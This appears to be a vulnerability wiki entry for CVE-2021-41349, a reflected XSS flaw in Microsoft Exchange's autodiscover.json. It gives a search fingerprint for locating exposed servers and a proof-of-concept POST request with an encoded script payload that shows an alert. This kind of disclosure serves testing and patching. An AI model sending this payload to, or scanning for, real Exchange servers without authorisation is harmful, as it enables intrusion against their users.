# Microsoft Exchange autodiscover.json Reflective XSS CVE-2021-41349

## Vulnerability Description

Reflective XSS exists in the Microsoft Exchange autodiscover.json file, which is caused by insufficient filtering.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Microsoft Exchange</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="1768726119"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1637288762813-e6dfc1ae-30b5-4aae-bd47-f21c11fe820d.png)

Verify POC

```python
POST /autodiscover/autodiscover.json

%3Cscript%3Ealert%28document.domain%29%3B+a=%22%3C%2Fscript%3E&x=1
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1637288842810-502b9dc4-ce91-4217-8ec2-05cc530cac38.png)